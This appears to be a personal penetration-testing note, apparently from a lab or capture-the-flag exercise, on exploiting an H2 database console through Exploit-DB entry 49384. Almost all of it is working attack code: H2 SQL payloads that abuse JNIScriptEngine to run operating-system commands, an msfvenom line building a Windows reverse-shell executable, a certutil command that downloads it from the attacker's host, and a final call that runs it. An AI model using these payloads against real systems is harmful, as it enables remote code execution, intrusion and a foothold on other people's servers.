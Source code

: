 ```yaml
---
category: Uncategorized
tags: []
---
```

https://www.exploit-db.com/exploits/49384

1 by 1, put in each SQL command into the text box and hit run.

Test to make sure RCE works with whoami:
```sql H2
CREATE ALIAS IF NOT EXISTS JNIScriptEngine_eval FOR "JNIScriptEngine.eval";
CALL JNIScriptEngine_eval('new java.util.Scanner(java.lang.Runtime.getRuntime().exec("whoami").getInputStream()).useDelimiter("\\Z").next()');
```

![[Pasted image 20220404143802.png]]

```sql H2
CREATE ALIAS IF NOT EXISTS JNIScriptEngine_eval FOR "JNIScriptEngine.eval";
CALL JNIScriptEngine_eval('new java.util.Scanner(java.lang.Runtime.getRuntime().exec("cmd /c dir C:\\").getInputStream()).useDelimiter("\\Z").next()');
```

```sql H2
CREATE ALIAS IF NOT EXISTS JNIScriptEngine_eval FOR "JNIScriptEngine.eval";
CALL JNIScriptEngine_eval('new java.util.Scanner(java.lang.Runtime.getRuntime().exec("cmd /c dir C:\\").getInputStream()).useDelimiter("\\Z").next()');
```

```bash - kali
msfvenom -p windows/shell_reverse_tcp LHOST=$KALI LPORT=80 -f exe > reverse64.exe
```

```sql H2
CREATE ALIAS IF NOT EXISTS JNIScriptEngine_eval FOR "JNIScriptEngine.eval";
CALL JNIScriptEngine_eval('new java.util.Scanner(java.lang.Runtime.getRuntime().exec("certutil -urlcache -split -f http://$KALI/reverse64.exe C:\\Users\\$USER\\Desktop\\reverse64.exe").getInputStream()).useDelimiter("\\Z").next()');
```

![[rlwrap]]

```sql H2
CREATE ALIAS IF NOT EXISTS JNIScriptEngine_eval FOR "JNIScriptEngine.eval";
CALL JNIScriptEngine_eval('new java.util.Scanner(java.lang.Runtime.getRuntime().exec("C:\\Users\\tony\\Desktop\\reverse64.exe").getInputStream()).useDelimiter("\\Z").next()');
```



